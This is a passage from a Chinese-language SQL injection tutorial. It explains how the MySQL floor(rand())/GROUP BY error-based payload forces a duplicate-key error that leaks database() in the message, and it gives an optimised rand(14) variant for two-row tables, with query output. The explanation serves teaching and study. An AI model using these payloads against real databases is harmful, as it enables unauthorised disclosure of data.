 A：那为什么不是这个结果，反而报了主键重复的错误呢？

Q：因为还有一个最重要的特性，就是 group by 和 rand() 使用时，如果临时表中没有改主键，则在插入前 rand() 会再计算一次（也就是两次，也有说多次的）。就是这个特性导致了主键重复并报错。

> Payload 的执行流

```plain
mysql> SELECT count(*)
    -> from users
    -> GROUP BY
    -> concat(database(),floor(rand(0)*2));
ERROR 1062 (23000): Duplicate entry 'sqli1' for key 'group_key'
```

在 payload 的执行中，当`group by`取第一条`from`表记录时，此时`group by`的是`sqli0`，发现临时表中并没有`sqli0`的主键，注意这个时候，`rand(0)*2`会再计算一次，经`floor()`后，率先插入临时表的主键不是`sqli0`，而是`sqli1`，并计数`1`

| 记录  | Key | Count(\*) | floor(rand(0)\*2) |
| --- | --- | --- | --- |
|     | Sqli0 | 0   | 0   |
| 1   | Sqli1 | 0   | 1   |
|     | Sqli1 | 1   | 1   |
| 2   | Sqli0 | 1   | 0   |
|     | Sqli1 | 2   | 1   |
| 3   | sqli1 | 3   | 1   |
|     | sqli0 | 2   | 0   |
| 4   | sqli0 | 3   | 0   |
|     | sqli1 | 4   | 1   |
| 5   | sqli1 | 5   | 1   |

继续从 from 的表中取第三条记录，再次计算 floor(rand(0)*2)，结果为 0，与 database() 拼接为 sqli0，临时表的主键中并不存在，在插入前，floor(rand(0)*2) 又计算一次，拼接后与 sqli1，但是是直接插入，即使临时表中已经有了主键 sqli1 也硬要插入，从而导致主键重复报错，也就是：ERROR 1062 (23000): Duplicate entry (条目) 'sqli1' for key 'group\_key'。

> 优化

Floor(rand(0)\*2) 的值为 011011... 但其实第三次计算的结果我们已经不需要了，如果没有 floor(rand(x)\*2) 满足 0101 或 1010，那么 from 的表中有两条数据就是可以报错的。

经过多次实验，发现 floor(rand(14)\*2) 的值为 1010000...,那么我们创建一个只有两条数据的表试一下看看

```plain
mysql> select * from test;
+------+-------+------------+
| id   | name  | tel        |
+------+-------+------------+
|    1 | test  | 1111111111 |
|    2 | test2 |  222222222 |
+------+-------+------------+
2 rows in set (0.01 sec)

mysql> select count(*) from test group by concat(database(),floor(rand(0)*2));
+----------+
| count(*) |
+----------+
|        2 |
+----------+
1 row in set (0.01 sec)

mysql> select count(*) from test group by concat(database(),floor(rand(14)*2));
ERROR 1062 (23000): Duplicate entry 'sqli0' for key 'group_key'
```
